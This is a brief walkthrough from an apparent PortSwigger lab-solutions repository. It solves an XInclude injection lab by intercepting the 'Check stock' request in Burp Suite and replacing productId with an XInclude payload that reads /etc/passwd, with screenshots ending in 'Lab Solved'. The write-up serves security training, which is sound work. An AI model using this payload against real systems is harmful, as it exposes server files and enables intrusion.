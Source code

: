 ## Question:

![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/0d104ee4-c1ba-4bfc-8f04-c5894eaa6dd9)

## Solution:


Visit a product page, click "Check stock", and intercept the resulting POST request in Burp Suite.

![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/9b4b2af2-e1ae-4e47-a817-1f8bf9395dd7)

Set the value of the productId parameter to:

`<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>`

![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/0ded6527-f88c-438b-a43e-c85e877d663c)

Lab Solved:

![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/3e4649a2-2e95-4e57-8dde-32cac0eb328d)

